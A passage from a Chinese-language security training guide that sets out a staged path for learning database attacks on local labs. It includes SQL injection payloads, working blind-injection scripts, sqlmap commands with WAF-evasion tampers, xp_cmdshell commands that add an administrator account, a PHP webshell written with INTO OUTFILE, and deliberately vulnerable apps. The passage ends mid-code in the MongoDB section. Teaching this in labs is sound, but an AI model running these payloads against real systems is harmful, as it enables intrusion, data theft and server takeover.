


# 第11章 练习方法——数据库安全系统化训练指南

数据库安全是一门实践性极强的技能。理论知识再扎实，如果不通过大量刻意练习转化为肌肉记忆，在真实的渗透测试或应急响应中仍然会手忙脚乱。本章提供一套从零到精通的系统化训练路径，覆盖SQL基础、SQL注入（手动与自动化）、NoSQL攻击、数据库提权、安全加固五大模块，每个阶段都有明确的目标、可验证的成果标准和具体的练习资源。

## 学习路径总览



| 阶段 | 主题 | 时长 | 难度 | 验证标准 |
|------|------|------|------|---------|
| 第一阶段 | SQL基础与数据库操作 | 1-2周 | ★☆☆☆☆ | 独立完成多表JOIN查询、存储过程编写 |
| 第二阶段 | SQL注入入门 | 2-3周 | ★★☆☆☆ | 手动完成Less-1到Less-10全部关卡 |
| 第三阶段 | 高级注入技术 | 2-3周 | ★★★☆☆ | 独立编写盲注脚本、完成报错/堆叠/二次注入 |
| 第四阶段 | NoSQL攻击 | 1-2周 | ★★★☆☆ | 复现MongoDB认证绕过和Redis未授权利用 |
| 第五阶段 | 自动化与工具链 | 1-2周 | ★★★☆☆ | 熟练使用sqlmap、Burp Suite拦截与篡改 |
| 第六阶段 | 数据库提权 | 1-2周 | ★★★★☆ | 从Web应用权限提升到OS权限 |
| 第七阶段 | 安全加固与审计 | 1-2周 | ★★★☆☆ | 编写自动化审计脚本，输出加固报告 |
| 第八阶段 | CTF实战与综合演练 | 持续 | ★★★★★ | 在CTF比赛中稳定解出Web/数据库类题目 |

---

## 第一阶段：SQL基础与数据库操作（1-2周）

### 目标

建立扎实的SQL基础，能够独立操作关系型数据库，理解数据库的权限模型和安全配置。这是后续所有注入技术的地基——不理解正常SQL语句的结构，就无法理解注入的本质。

### 1.1 SQL语言核心练习

**DDL（数据定义语言）——掌握表结构设计**

```sql
-- 创建一个模拟电商数据库
CREATE DATABASE IF NOT EXISTS shop_demo;
USE shop_demo;

-- 用户表：理解数据类型选择对安全的影响
CREATE TABLE users (
    id INT PRIMARY KEY AUTO_INCREMENT,
    username VARCHAR(50) NOT NULL UNIQUE,
    password_hash CHAR(60) NOT NULL,          -- bcrypt哈希固定60字符
    email VARCHAR(100) NOT NULL,
    role ENUM('customer', 'staff', 'admin') DEFAULT 'customer',
    failed_login_count INT DEFAULT 0,
    locked_until DATETIME DEFAULT NULL,
    created_at TIMESTAMP DEFAULT CURRENT_TIMESTAMP,
    updated_at TIMESTAMP DEFAULT CURRENT_TIMESTAMP ON UPDATE CURRENT_TIMESTAMP,
    INDEX idx_email (email),
    INDEX idx_role (role)
) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4;

-- 订单表：理解外键约束
CREATE TABLE orders (
    id INT PRIMARY KEY AUTO_INCREMENT,
    user_id INT NOT NULL,
    total_amount DECIMAL(10,2) NOT NULL,
    status ENUM('pending', 'paid', 'shipped', 'cancelled') DEFAULT 'pending',
    created_at TIMESTAMP DEFAULT CURRENT_TIMESTAMP,
    FOREIGN KEY (user_id) REFERENCES users(id) ON DELETE CASCADE
) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4;

-- 订单明细表：理解多表关系
CREATE TABLE order_items (
    id INT PRIMARY KEY AUTO_INCREMENT,
    order_id INT NOT NULL,
    product_name VARCHAR(200) NOT NULL,
    quantity INT NOT NULL CHECK (quantity > 0),
    unit_price DECIMAL(10,2) NOT NULL,
    FOREIGN KEY (order_id) REFERENCES orders(id) ON DELETE CASCADE
) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4;
```

**练习要点：** 建完表后，尝试 `SHOW CREATE TABLE users;` 查看完整建表语句，理解每个约束的安全意义。例如 `CHECK (quantity > 0)` 防止负数数量，`ON DELETE CASCADE` 保证级联删除的数据一致性。

**DML（数据操作语言）——掌握增删改查**

```sql
-- 批量插入测试数据
INSERT INTO users (username, password_hash, email, role) VALUES
    ('alice', '$2b$12$LJ3m4ys4Tz5.6M8Q9X2eZe9H8k5v3Q7w1N2P4R6T8Y0A1C3E5G', 'alice@shop.com', 'customer'),
    ('bob', '$2b$12$M94n5zt6U06.7N9R0Y3fAf0I9l6w4R8x2O3Q5S7U9V1B2D4F6H', 'bob@shop.com', 'customer'),
    ('admin', '$2b$12$N05o6au7V17.8O0S1Z4gb1J0m7x5S9y3P4R6T8V0W2C3E5G7I', 'admin@shop.com', 'admin');

-- 复杂查询练习：子查询、JOIN、聚合
-- 练习1：查询消费金额TOP 5的用户
SELECT u.username, SUM(o.total_amount) AS total_spent
FROM users u
JOIN orders o ON u.id = o.user_id
WHERE o.status = 'paid'
GROUP BY u.id, u.username
ORDER BY total_spent DESC
LIMIT 5;

-- 练习2：查询最近30天内没有下单的活跃用户
SELECT u.username, u.email
FROM users u
WHERE u.id NOT IN (
    SELECT DISTINCT user_id
    FROM orders
    WHERE created_at >= DATE_SUB(NOW(), INTERVAL 30 DAY)
)
AND u.role = 'customer';

-- 练习3：查询每个用户的订单统计（含HAVING过滤）
SELECT u.username,
       COUNT(o.id) AS order_count,
       AVG(o.total_amount) AS avg_amount,
       MAX(o.created_at) AS last_order
FROM users u
LEFT JOIN orders o ON u.id = o.user_id
GROUP BY u.id, u.username
HAVING order_count > 2
ORDER BY avg_amount DESC;
```

**DCL（数据控制语言）——理解权限模型**

```sql
-- 创建不同权限的应用用户
-- 只读用户：用于报表查询
CREATE USER 'reader'@'localhost' IDENTIFIED BY 'R3@d0nly!Str0ng';
GRANT SELECT ON shop_demo.* TO 'reader'@'localhost';

-- 应用用户：用于日常业务操作
CREATE USER 'app'@'localhost' IDENTIFIED BY 'App!Str0ng#2026';
GRANT SELECT, INSERT, UPDATE ON shop_demo.users TO 'app'@'localhost';
GRANT SELECT, INSERT, UPDATE ON shop_demo.orders TO 'app'@'localhost';
GRANT SELECT, INSERT ON shop_demo.order_items TO 'app'@'localhost';
-- 注意：不授予DELETE权限，防止恶意删除

-- 管理用户：用于数据维护
CREATE USER 'dba'@'localhost' IDENTIFIED BY 'Db@Adm!n#2026';
GRANT ALL PRIVILEGES ON shop_demo.* TO 'dba'@'localhost';

FLUSH PRIVILEGES;

-- 验证权限
SHOW GRANTS FOR 'reader'@'localhost';
SHOW GRANTS FOR 'app'@'localhost';
```

**安全思考：** 练习时始终思考"如果这个查询的参数被用户控制会怎样？"。例如上面的 `WHERE u.id NOT IN (SELECT ...)` 如果子查询的结果被注入篡改，会发生什么？

### 1.2 存储过程与触发器

存储过程在安全攻防中是一把双刃剑——正确使用可以减少注入面，错误使用反而引入新的攻击向量。

```sql
DELIMITER //

-- 安全的存储过程：使用参数化
CREATE PROCEDURE sp_get_user_orders(IN p_user_id INT)
BEGIN
    SELECT o.id, o.total_amount, o.status, o.created_at
    FROM orders o
    WHERE o.user_id = p_user_id
    ORDER BY o.created_at DESC;
END //

-- 危险的存储过程：使用字符串拼接（反面教材）
CREATE PROCEDURE sp_search_orders_unsafe(IN p_column VARCHAR(50), IN p_value VARCHAR(100))
BEGIN
    SET @sql = CONCAT('SELECT * FROM orders WHERE ', p_column, ' = ''', p_value, '''');
    PREPARE stmt FROM @sql;
    EXECUTE stmt;
    DEALLOCATE PREPARE stmt;
END //

-- 安全的替代方案：使用白名单
CREATE PROCEDURE sp_search_orders_safe(
    IN p_column VARCHAR(50),
    IN p_value VARCHAR(100)
)
BEGIN
    -- 白名单验证列名
    IF p_column NOT IN ('id', 'user_id', 'status', 'total_amount') THEN
        SIGNAL SQLSTATE '45000'
        SET MESSAGE_TEXT = 'Invalid column name';
    END IF;

    SET @sql = CONCAT('SELECT * FROM orders WHERE ', p_column, ' = ?');
    SET @val = p_value;
    PREPARE stmt FROM @sql;
    EXECUTE stmt USING @val;
    DEALLOCATE PREPARE stmt;
END //

DELIMITER ;

-- 测试
CALL sp_get_user_orders(1);
CALL sp_search_orders_safe('status', 'paid');
CALL sp_search_orders_unsafe('status', 'paid' OR '1'='1');  -- 观察注入效果
```

### 1.3 数据库安装与环境配置

**MySQL环境（推荐Docker方式）**

```bash
# 使用Docker搭建MySQL 8.0，便于重置环境
docker run -d \
  --name mysql-practice \
  -e MYSQL_ROOT_PASSWORD=root123 \
  -e MYSQL_DATABASE=shop_demo \
  -p 3306:3306 \
  mysql:8.0 \
  --default-authentication-plugin=mysql_native_password

# 连接测试
docker exec -it mysql-practice mysql -uroot -proot123

# 如果需要重置环境（练习出错时）
docker rm -f mysql-practice
# 重新执行上面的run命令即可
```

**PostgreSQL环境**

```bash
# PostgreSQL同样推荐Docker
docker run -d \
  --name pg-practice \
  -e POSTGRES_PASSWORD=postgres123 \
  -e POSTGRES_DB=shop_demo \
  -p 5432:5432 \
  postgres:16

# 连接
docker exec -it pg-practice psql -U postgres -d shop_demo

# PostgreSQL特有练习：行级安全策略
CREATE TABLE documents (
    id SERIAL PRIMARY KEY,
    owner TEXT NOT NULL,
    content TEXT,
    is_public BOOLEAN DEFAULT FALSE
);

ALTER TABLE documents ENABLE ROW LEVEL SECURITY;

CREATE POLICY doc_owner_policy ON documents
    FOR ALL
    USING (owner = current_user OR is_public = TRUE);
```

### 1.4 阶段成果自检

完成本阶段后，你应该能够回答以下问题并实际操作：

| 自检项 | 验证方法 |
|-------|---------|
| 能否独立设计一个三表关联的数据库Schema？ | 纸笔画出ER图并实现 |
| 能否解释 `INNER JOIN`、`LEFT JOIN`、`RIGHT JOIN` 的区别？ | 用相同数据写出三个查询并对比结果 |
| 能否使用 `GROUP BY` + `HAVING` 完成聚合过滤？ | 统计每个角色的用户数量，过滤出数量>5的角色 |
| 能否解释为什么应用不能使用root连接数据库？ | 列出至少3个安全风险 |
| 能否创建具有最小权限的数据库用户？ | 实际创建并验证权限边界 |

### 1.5 推荐学习资源

| 资源 | 类型 | 特点 | 推荐度 |
|------|------|------|--------|
| [SQLZoo](https://sqlzoo.net/) | 在线练习 | 交互式SQL教程，从SELECT到JOIN | ★★★★★ |
| [HackerRank SQL](https://www.hackerrank.com/domains/sql) | 挑战平台 | 分难度等级的SQL题目 | ★★★★☆ |
| [LeetCode Database](https://leetcode.cn/problemset/database/) | 刷题平台 | 面试级SQL题目，锻炼复杂查询 | ★★★★☆ |
| [SQLBolt](https://sqlbolt.com/) | 在线教程 | 最简洁的SQL入门教程 | ★★★★☆ |
| 《SQL必知必会》(Ben Forta) | 书籍 | 经典SQL入门，薄且实用 | ★★★★★ |

---

## 第二阶段：SQL注入入门（2-3周）

### 目标

理解SQL注入的本质——用户输入被当作SQL代码执行。能够手动完成基本的GET/POST型注入、字符型/数字型注入、布尔盲注和时间盲注。

### 2.1 搭建靶场环境

**SQLi-labs（最推荐的SQL注入专项靶场）**

```bash
# 方式一：Docker（推荐，干净且可随时重置）
docker pull acgpiano/sqli-labs
docker run -dt --name sqli-labs -p 8080:80 acgpiano/sqli-labs

# 访问 http://localhost:8080 点击"Setup/reset Database"初始化

# 方式二：手动搭建（需要Apache + PHP + MySQL）
sudo apt install apache2 php php-mysql mysql-server -y
git clone https://github.com/Audi-1/sqli-labs.git /var/www/html/sqli-labs
# 访问 http://localhost/sqli-labs 初始化
```

**DVWA（综合Web安全靶场，包含SQLi模块）**

```bash
docker pull vulnerables/web-dvwa
docker run -d --name dvwa -p 8081:80 vulnerables/web-dvwa
# 访问 http://localhost:8081，默认账号 admin/password
# Security设置为Low开始练习
```

**PortSwigger Web Security Academy（免费、权威、最专业）**

直接访问 https://portswigger.net/web-security/sql-injection ，每个Lab都有详细描述和可交互的在线环境，无需搭建本地靶场。

### 2.2 手动注入练习路线

按SQLi-labs的关卡顺序练习，每道题都要理解"为什么这个Payload有效"，而不是死记硬背。

**第一组：GET型基础注入（Less-1 到 Less-4）**

以Less-1（字符型注入）为例，完整的注入思考过程：

```text
第1步：判断是否存在注入
访问: http://localhost:8080/Less-1/?id=1
正常显示用户信息

访问: http://localhost:8080/Less-1/?id=1'
报错: You have an error in your SQL syntax...
→ 说明输入被拼接到SQL语句中，存在注入

第2步：判断闭合方式
访问: http://localhost:8080/Less-1/?id=1' --+
正常显示 → 闭合符号是单引号 '，注释用 --+ (%20为+的URL编码)

第3步：判断列数（ORDER BY）
http://localhost:8080/Less-1/?id=1' ORDER BY 3--+   → 正常
http://localhost:8080/Less-1/?id=1' ORDER BY 4--+   → 报错
→ 说明查询有3列

第4步：确定显示位
http://localhost:8080/Less-1/?id=-1' UNION SELECT 1,2,3--+
→ 页面显示 2 和 3，说明第2、3列会被回显

第5步：获取数据库信息
http://localhost:8080/Less-1/?id=-1' UNION SELECT 1,database(),version()--+
→ 显示: security, 5.x.x

第6步：获取所有表名
http://localhost:8080/Less-1/?id=-1' UNION SELECT 1,GROUP_CONCAT(table_name),3
    FROM information_schema.tables WHERE table_schema=database()--+

第7步：获取目标表的列名
http://localhost:8080/Less-1/?id=-1' UNION SELECT 1,GROUP_CONCAT(column_name),3
    FROM information_schema.columns WHERE table_schema=database() AND table_name='users'--+

第8步：提取数据
http://localhost:8080/Less-1/?id=-1' UNION SELECT 1,
    GROUP_CONCAT(username,0x3a,password SEPARATOR 0x0a),3
    FROM users--+
```

**Less-1 到 Less-4 对比总结：**

| 关卡 | 闭合方式 | 注入类型 | 关键区别 |
|------|---------|---------|---------|
| Less-1 | 单引号 `'` | 字符型 | 经典模式 |
| Less-2 | 无（数字型） | 数字型 | 直接 `id=-1 UNION SELECT...`，不需要闭合 |
| Less-3 | 单引号+括号 `')` | 字符型变形 | 闭合方式不同，需要 `')` |
| Less-4 | 双引号+括号 `")` | 字符型变形 | 用 `"` 包裹，闭合用 `")` |

**第二组：布尔盲注与时间盲注（Less-5 到 Less-10）**

Less-5是盲注的入门关卡——页面不回显查询结果，只显示"You are in..."或不显示任何内容。

```sql
-- 判断数据库名第一个字符的ASCII值
-- 方法：逐字符二分法
http://localhost:8080/Less-5/?id=1' AND ASCII(SUBSTR(database(),1,1))>100--+
-- 如果页面显示"You are in..."，说明ASCII码>100

http://localhost:8080/Less-5/?id=1' AND ASCII(SUBSTR(database(),1,1))>115--+
-- 如果页面不显示，说明ASCII码<=115

http://localhost:8080/Less-5/?id=1' AND ASCII(SUBSTR(database(),1,1))=115--+
-- 页面显示 → 第一个字符ASCII=115 → 字母 's'

-- 以此类推逐字符推导出完整数据库名
```

```sql
-- 时间盲注：页面无任何差异时使用
-- Less-9 示例
http://localhost:8080/Less-9/?id=1' AND IF(ASCII(SUBSTR(database(),1,1))>100,0,SLEEP(5))--+
-- 如果数据库名第一个字符>100，立即响应；否则等待5秒
```

**练习要求：** 在Less-5到Less-10上，至少手动推导出数据库名的前3个字符。不依赖工具，纯粹用浏览器地址栏完成。这个过程很枯燥，但它是理解盲注原理的唯一途径。

### 2.3 安装和使用Burp Suite

Burp Suite是Web安全测试的核心工具，SQL注入练习中用于拦截和篡改HTTP请求。

```bash
# 下载Burp Suite Community Edition
# https://portswigger.net/burp/communitydownload

# 使用流程：
# 1. 启动Burp，配置浏览器代理为 127.0.0.1:8080
# 2. 访问SQLi-labs页面，请求被Burp拦截
# 3. 在Proxy > HTTP history中查看所有请求
# 4. 右键发送到Repeater，手动修改参数测试注入
# 5. 使用Intruder进行自动化爆破（社区版有速率限制）

# 关键功能练习：
# - Proxy: 拦截和修改请求
# - Repeater: 手动重放和修改请求（最常用）
# - Intruder: 自动化Payload爆破
# - Decoder: URL编码/解码、Base64编解码
```

### 2.4 sqlmap入门

sqlmap是自动化SQL注入工具，但初学者必须先完成手动注入练习再使用它。只有理解了手动注入的原理，才能理解sqlmap的输出和判断其结果的可靠性。

```bash
# 安装
pip install sqlmap

# 基本用法：检测注入
sqlmap -u "http://localhost:8080/Less-1/?id=1" --batch
# --batch: 使用默认选项，不交互询问

# 获取所有数据库
sqlmap -u "http://localhost:8080/Less-1/?id=1" --dbs

# 获取指定数据库的表
sqlmap -u "http://localhost:8080/Less-1/?id=1" -D security --tables

# 导出指定表的数据
sqlmap -u "http://localhost:8080/Less-1/?id=1" -D security -T users --dump

# POST请求注入（需要指定数据）
sqlmap -u "http://localhost:8080/Less-11/" --data="uname=admin&passwd=123" --batch

# Cookie注入
sqlmap -u "http://localhost:8080/Less-20/" --cookie="uname=admin" --batch

# 从Burp Suite导出的请求文件
sqlmap -r request.txt --batch
# request.txt: 从Burp > 右键 > Copy to file 导出
```

**sqlmap进阶参数练习：**

```bash
# 指定注入技术（默认全部尝试）
sqlmap -u "URL" --technique=BEU
# B: Boolean-based, E: Error-based, U: Union query, S: Stacked, T: Time-based

# 指定数据库管理系统
sqlmap -u "URL" --dbms=mysql

# 设置请求延迟（避免被封IP）
sqlmap -u "URL" --delay=1

# 自定义User-Agent
sqlmap -u "URL" --user-agent="Mozilla/5.0 ..."

# 绕过WAF的tamper脚本
sqlmap -u "URL" --tamper=space2comment,between,randomcase
# space2comment: 空格替换为/**/
# between: >替换为BETWEEN, =替换为LIKE
# randomcase: 随机大小写

# 查看所有可用tamper
sqlmap --list-tampers

# 绕过自定义403/404页面
sqlmap -u "URL" --string="You are in"  # 匹配页面中的特定字符串判断True
sqlmap -u "URL" --not-string="error"   # 不包含此字符串时判断True
```

### 2.5 阶段成果自检

| 自检项 | 验证方法 |
|-------|---------|
| 能否判断数字型和字符型注入？ | 遇到新目标能在3次请求内判断 |
| 能否手动推导布尔盲注的数据库名？ | 在Less-5上不使用任何工具完成 |
| 能否解释 `UNION SELECT` 为什么需要 `-1`？ | 说明原因（使前查询返回空，UNION结果才能显示） |
| 能否使用Burp Repeater手动测试注入？ | 截获请求并修改参数完成注入 |
| 能否用sqlmap导出整张表的数据？ | 实际操作并验证结果正确 |

---

## 第三阶段：高级注入技术（2-3周）

### 目标

掌握报错注入、高级盲注优化、堆叠注入、二次注入、WAF绕过等进阶技术。本阶段结束后，你应能应对大多数真实场景中的SQL注入挑战。

### 3.1 报错注入深度练习

报错注入的前提是应用程序将MySQL错误信息显示给用户。即使错误信息被部分截断，也可以通过 `SUBSTR` 分段获取完整数据。

```sql
-- extractvalue()：最大报错长度32字符
-- 需要用SUBSTR分段获取长数据
?id=-1' AND extractvalue(1,concat(0x7e,
    (SELECT SUBSTR(GROUP_CONCAT(table_name),1,31)
     FROM information_schema.tables
     WHERE table_schema=database()),
    0x7e))--+

-- 获取后续字符（偏移32开始）
?id=-1' AND extractvalue(1,concat(0x7e,
    (SELECT SUBSTR(GROUP_CONCAT(table_name),32,31)
     FROM information_schema.tables
     WHERE table_schema=database()),
    0x7e))--+

-- updatexml()：同样最大32字符，用法相同
?id=-1' AND updatexml(1,concat(0x7e,
    (SELECT SUBSTR(GROUP_CONCAT(username,0x3a,password),1,31) FROM users),
    0x7e),1)--+

-- floor()（MySQL 5.x有效）：不受32字符限制但构造更复杂
?id=-1' AND (SELECT 1 FROM (SELECT COUNT(*),
    CONCAT((SELECT password FROM users WHERE username='admin' LIMIT 1),
    FLOOR(RAND(0)*2))x
    FROM information_schema.tables GROUP BY x)a)--+
```

**练习：** 在SQLi-labs的Less-1上，分别用三种报错函数获取users表中的用户名和密码。对比每种方法的优缺点：

| 方法 | 最大长度 | MySQL版本要求 | 构造难度 |
|------|---------|-------------|---------|
| extractvalue() | 32字符 | 5.1+ | 低 |
| updatexml() | 32字符 | 5.1+ | 低 |
| floor() | 无限制 | 仅5.x | 高 |

### 3.2 盲注脚本编写

手动盲注效率极低，必须编写自动化脚本。以下是完整的布尔盲注脚本，可直接运行：

```python
import requests
import string

def boolean_blind_sqli(url_template, position_param, true_string="You are in"):
    """
    布尔盲注自动化脚本
    url_template: 包含{payload}占位符的URL模板
    position_param: 注入位置（如?id=）
    true_string: 页面为True时包含的字符串
    """
    chars = string.printable  # 可打印字符集
    result = ""

    def check(payload):
        """发送请求并判断True/False"""
        url = url_template.format(payload=payload)
        try:
            resp = requests.get(url, timeout=10)
            return true_string in resp.text
        except requests.Timeout:
            return False

    # 获取数据库名长度
    length = 0
    for i in range(1, 50):
        payload = f"1' AND LENGTH(database())={i}--+"
        if check(payload):
            length = i
            break
    print(f"[*] 数据库名长度: {length}")

    # 逐字符获取数据库名（二分法）
    db_name = ""
    for i in range(1, length + 1):
        low, high = 32, 126
        while low < high:
            mid = (low + high) // 2
            payload = f"1' AND ASCII(SUBSTR(database(),{i},1))>{mid}--+"
            if check(payload):
                low = mid + 1
            else:
                high = mid
        db_name += chr(low)
        print(f"[*] 数据库名: {db_name}")
    print(f"[+] 完整数据库名: {db_name}")

    return db_name


def time_blind_sqli(url_template, threshold=3):
    """
    时间盲注自动化脚本
    threshold: 响应延迟阈值（秒），超过此值判断为True
    """
    import time

    def check(payload):
        url = url_template.format(payload=payload)
        start = time.time()
        try:
            requests.get(url, timeout=10)
        except requests.Timeout:
            return True  # 超时说明SLEEP生效
        elapsed = time.time() - start
        return elapsed >= threshold

    # 获取数据库名长度
    for i in range(1, 50):
        payload = f"1' AND IF(LENGTH(database())={i},SLEEP({threshold}),0)--+"
        if check(payload):
            print(f"[*] 数据库名长度: {i}")
            length = i
            break

    # 逐字符获取
    db_name = ""
    for i in range(1, length + 1):
        low, high = 32, 126
        while low < high:
            mid = (low + high) // 2
            payload = f"1' AND IF(ASCII(SUBSTR(database(),{i},1))>{mid},SLEEP({threshold}),0)--+"
            if check(payload):
                low = mid + 1
            else:
                high = mid
        db_name += chr(low)
        print(f"[*] 数据库名: {db_name}")

    return db_name


# 使用示例
if __name__ == "__main__":
    # 布尔盲注
    boolean_blind_sqli(
        url_template="http://localhost:8080/Less-5/?id={payload}",
        position_param="id"
    )

    # 时间盲注
    # time_blind_sqli(
    #     url_template="http://localhost:8080/Less-9/?id={payload}",
    #     threshold=3
    # )
```

**优化方向：** 完成基础版本后，尝试以下优化：

1. **并发请求**：使用 `asyncio` + `aiohttp` 同时测试多个字符位置
2. **字频优化**：优先测试高频字符（e, a, s, t等），减少平均请求次数
3. **二分法 vs 逐字符法**：二分法每次最多7次请求（ASCII 32-126），逐字符法最多95次

### 3.3 堆叠注入

堆叠注入（Stacked Queries）允许执行多条SQL语句，危害远超普通注入。前提条件是数据库驱动支持多语句执行（MySQL默认不支持，MSSQL和PostgreSQL默认支持）。

```sql
-- MySQL堆叠注入（需要mysqli_multi_query支持）
-- Less-38可以练习堆叠注入

-- 创建新用户
?id=-1'; INSERT INTO users(username,password) VALUES('hacker','hacked')--+

-- 修改管理员密码
?id=-1'; UPDATE users SET password='hacked' WHERE username='admin'--+

-- MSSQL堆叠注入（默认支持，危害更大）
-- 执行系统命令
'; EXEC xp_cmdshell 'whoami'--
'; EXEC xp_cmdshell 'net user hacker your_password /add'--
'; EXEC xp_cmdshell 'net localgroup administrators hacker /add'--

-- 读取文件（MSSQL）
'; CREATE TABLE tmp(content TEXT); BULK INSERT tmp FROM 'C:\Windows\System32\drivers\etc\hosts'--
'; SELECT * FROM tmp--
'; DROP TABLE tmp--
```

### 3.4 二次注入

二次注入是最难防御的注入类型之一——恶意数据先被安全地存入数据库，在后续读取使用时才被触发。

```python
# 二次注入练习环境搭建（Python + MySQL）
# app.py
import mysql.connector
from flask import Flask, request, session

app = Flask(__name__)
app.secret_key = 'weak_secret'

def get_db():
    return mysql.connector.connect(
        host='localhost', user='root',
        password='root123', database='vuln_app'
    )

@app.route('/register', methods=['POST'])
def register():
    username = request.form['username']
    password = request.form['password']
    db = get_db()
    cursor = db.cursor()
    # 安全地存储（参数化查询，这里不会触发注入）
    cursor.execute(
        "INSERT INTO users (username, password) VALUES (%s, %s)",
        (username, password)
    )
    db.commit()
    return "Registered!"

@app.route('/login', methods=['POST'])
def login():
    username = request.form['username']
    password = request.form['password']
    db = get_db()
    cursor = db.cursor()
    # 漏洞点：从数据库取出username后直接拼接
    cursor.execute("SELECT * FROM users WHERE username = '%s'" % username)
    # ↑ 即使username来自数据库，拼接仍然是危险的
    user = cursor.fetchone()
    if user and user[2] == password:
        session['user'] = user[1]
        return "Logged in!"
    return "Failed!"

# 攻击流程：
# 1. 注册用户名: admin' --
# 2. 系统安全存储（参数化插入）
# 3. 登录时输入用户名: admin' --
# 4. SQL变为: SELECT * FROM users WHERE username = 'admin' --'
# 5. 等价于: SELECT * FROM users WHERE username = 'admin'
# 6. 使用任意密码登录为admin
```

### 3.5 WAF绕过技术练习

真实环境中几乎每个站点都有WAF，绕过WAF是渗透测试的必备技能。

```sql
-- 1. 空格绕过
/**/        -- MySQL注释替代空格
%0a         -- 换行符
%09         -- Tab符
%0b         -- 垂直制表符
%0c         -- 换页符
%0d         -- 回车符
()          -- 括号包裹（不需要空格）

-- 示例
UNION/**/SELECT/**/1,2,3--
UNION%0aSELECT%0a1,2,3--
UNION(SELECT(1),(2),(3))--

-- 2. 关键字绕过
UNiON SeLeCt    -- 大小写混合
UNI/**/ON SEL/**/ECT  -- 注释分割关键字
UNION%0aSELECT  -- 换行分割
uNiOn(select(1),(2),(3))  -- 组合使用

-- 3. 引号绕过
0x61646D696E   -- hex编码 'admin'
CHAR(97,100,109,105,110)  -- CHAR函数
0b0110000101100100011011010110100101101110  -- 二进制（MySQL 5.0+）

-- 4. 等号绕过
LIKE 'admin'   -- 替代 =
REGEXP 'admin' -- 替代 =
BETWEEN 'a' AND 'z'  -- 范围替代
IN ('admin')   -- 替代 =

-- 5. 逗号绕过（UNION注入中）
UNION SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c
-- 替代 UNION SELECT 1,2,3

-- LIMIT绕过
LIMIT 1 OFFSET 0  -- 替代 LIMIT 0,1

-- 6. HTTP参数污染（HPP）
?id=1/**/UNION/**/SELECT/**/1,2,3--+
&id=1'/**/UNION/**/SELECT/**/1,username,3/**/FROM/**/users--+
```

**WAF绕过练习平台：**

```bash
# 使用ModSecurity + SQLi-labs搭建WAF练习环境
docker run -d --name modsec \
  -p 8082:80 \
  owasp/modsecurity-crs:nginx

# 使用sqlmap的tamper脚本批量测试
sqlmap -u "http://localhost:8082/?id=1" \
  --tamper=space2comment,between,randomcase,charencode \
  --batch --level=5 --risk=3
```

### 3.6 文件读写注入

```sql
-- 前提条件：MySQL用户有FILE权限，secure_file_priv未限制

-- 读取文件
?id=-1' UNION SELECT 1,LOAD_FILE('/etc/passwd'),3--+
?id=-1' UNION SELECT 1,LOAD_FILE('/etc/apache2/apache2.conf'),3--+
?id=-1' UNION SELECT 1,LOAD_FILE('/var/www/html/config.php'),3--+

-- 写入WebShell
?id=-1' UNION SELECT 1,'<?php eval($_POST["cmd"]); ?>',3
    INTO OUTFILE '/var/www/html/shell.php'--+

-- 条件限制检查
-- secure_file_priv的值决定文件读写的范围
SHOW VARIABLES LIKE 'secure_file_priv';
-- 空字符串：无限制（危险）
-- NULL：禁止读写
-- /path/：只能在指定目录下操作
```

---

## 第四阶段：NoSQL注入（1-2周）

### 目标

掌握MongoDB、Redis等NoSQL数据库的攻击方法，理解NoSQL注入与SQL注入的本质区别。

### 4.1 MongoDB注入

**搭建练习环境**

```bash
# Node.js + MongoDB环境
docker run -d --name mongo-practice -p 27017:27017 mongo:7

# 创建一个易受攻击的Express应用
mkdir nosql-practice && cd nosql-practice
npm init -y
npm install express mongoose body-parser

# app.js — 包含典型NoSQL漏洞的应用
cat > app.js << 'EOF'
const express = require('express');
const mongoose = require('mongoose');
const bodyParser = require('body-parser');

const app = express();
app.use(bodyParser.json());

mongoose.connect('mongodb://mongo:27017/vulnapp');

const User = mongoose.model('User', {
    username: String,
    password: String,
    role: { type: String, default: 'user' }
});

// 漏洞点：接受JSON对象作为查询参数
app.post('/login', async (req, res) => {
    const { username, password } = req.body;
